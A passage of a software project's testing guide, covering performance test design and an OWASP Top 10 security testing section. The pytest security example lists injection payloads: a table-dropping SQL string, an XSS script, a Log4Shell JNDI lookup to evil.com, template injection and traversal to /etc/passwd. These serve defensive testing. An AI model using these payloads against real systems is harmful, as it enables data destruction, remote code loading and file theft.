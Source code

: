#### Performance Test Design
1. **Realistic Load**: Use production-representative data volumes
2. **Gradual Ramp-up**: Start with low load and gradually increase
3. **SLA Validation**: Assert performance requirements explicitly
4. **Resource Monitoring**: Track CPU, memory, and I/O usage

### Example Performance Test
```python
@pytest.mark.performance
class TestDatabasePerformance:
    """Database performance validation."""
    
    async def test_batch_query_performance(self, db_session, large_dataset):
        """Test batch query performance with large dataset."""
        
        # Setup: Create 10,000 batches
        await BatchFactory.create_batch_async(10000)
        
        # Performance test
        start_time = time.time()
        batches = await db_session.execute(
            select(Batch).where(Batch.status == "completed")
        )
        query_time = time.time() - start_time
        
        # Validate SLA
        assert query_time < 0.1, f"Query took {query_time:.3f}s, expected <0.1s"
        assert len(batches.all()) > 0
```

## Security Testing

### OWASP Top 10 Coverage

Our security tests cover all OWASP Top 10 vulnerabilities:

1. **Injection**: SQL injection, NoSQL injection, LDAP injection
2. **Broken Authentication**: Session management, password policies
3. **Sensitive Data Exposure**: Data encryption, PII protection
4. **XML External Entities (XXE)**: XML parsing security
5. **Broken Access Control**: Authorization bypass attempts
6. **Security Misconfiguration**: Default credentials, debug modes
7. **Cross-Site Scripting (XSS)**: Input sanitization
8. **Insecure Deserialization**: Pickle/JSON safety
9. **Known Vulnerabilities**: Dependency scanning
10. **Insufficient Logging**: Audit trail validation

### Security Test Example
```python
@pytest.mark.security
class TestOWASPCompliance:
    """OWASP Top 10 security tests."""
    
    async def test_injection_prevention(self, client):
        """Test various injection attack vectors."""
        
        injection_payloads = [
            "'; DROP TABLE users; --",
            "<script>alert('xss')</script>",
            "${jndi:ldap://evil.com/payload}",
            "{{7*7}}",  # Template injection
            "../../../etc/passwd"  # Directory traversal
        ]
```